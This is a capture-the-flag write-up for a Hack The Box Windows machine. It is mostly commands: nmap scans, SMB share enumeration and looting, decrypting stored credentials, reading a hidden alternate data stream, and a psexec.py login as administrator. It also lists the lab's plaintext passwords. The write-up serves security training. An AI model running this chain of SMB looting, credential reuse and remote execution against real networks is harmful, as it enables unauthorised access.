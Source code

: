 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🧭 Reconnaissance

**Nmap Full TCP Port Scan**
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.178
```

**Nmap Service/Script Scan**
```bash
nmap -p 445,4386 -sC -sV -oA scripts/nmap-tcpscripts 10.10.10.178
```

**Key Ports Identified**
- TCP 445: SMB
- TCP 4386: HQK Reporting Service (custom)

---

## 📁 Initial [SMB](SMB.md) Enumeration

**Anonymous SMB Access**
```bash
smbmap -H 10.10.10.178 -u null
smbclient -N //10.10.10.178/Users
smbclient -N //10.10.10.178/Data
```

**Files of Interest**
- `Welcome Email.txt` → Provided creds: `TempUser : welcome2019`

---

## 🔑 Gaining Access as TempUser

**Enumerate Shares With Credentials**
```bash
smbmap -H 10.10.10.178 -u TempUser -p welcome2019
smbclient -U TempUser //10.10.10.178/Data
```

**Pull Files**
```bash
recurse ON
prompt OFF
mget *
```

**Find Encrypted Password**
- In `RU_config.xml` for user `c.smith`
- Password: `fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=`

**Find Path Hint**
- In `Notepad++` config file → referenced: `\\HTB-NEST\Secure$\IT\Carl`

---

## 🔓 Decrypting C.Smith's Password

**Locate Visual Basic Project**
```bash
smbclient -U TempUser //10.10.10.178/Secure$
cd "IT\Carl"
recurse ON
prompt OFF
mget *
```

**Decrypt Password via DotNetFiddle**
```vbnet
DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")
```
- Result: `xRxRxPANCAK3SxRxRx`

---

## 🧑‍💻 Shell as C.Smith

**Verify SMB Access**
```bash
smbmap -H 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
```

**Retrieve user.txt**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd C.Smith
get user.txt
```

---

## 🧠 Debug Access to HQK Reporting Service

**Manual Connect With Telnet**
```bash
telnet 10.10.10.178 4386
```

**Find Hidden Stream in SMB**
```bash
smbclient -U C.Smith //10.10.10.178/Users
cd "HQK Reporting"
allinfo "Debug Mode Password.txt"
get "Debug Mode Password.txt:Password"
```
- Result: `WBQ201953D8w`

**Enable Debug Mode in HQK**
```bash
debug WBQ201953D8w
```

**Show LDAP Config with Encrypted Admin Password**
```bash
setdir LDAP
showquery 2
```

---

## 🔓 Decrypting Admin Password

**Grab and Open HqkLdap.exe in dnSpy**
- Find decryption logic
- Run with breakpoint or patched console output

**Resulting Password**
- `XtH4nkS4Pl4y1nGX`

---

## 👑 Shell as SYSTEM

**PSExec Shell**
```bash
psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
```

**Grab root.txt**
```bash
type C:\Users\Administrator\Desktop\root.txt
```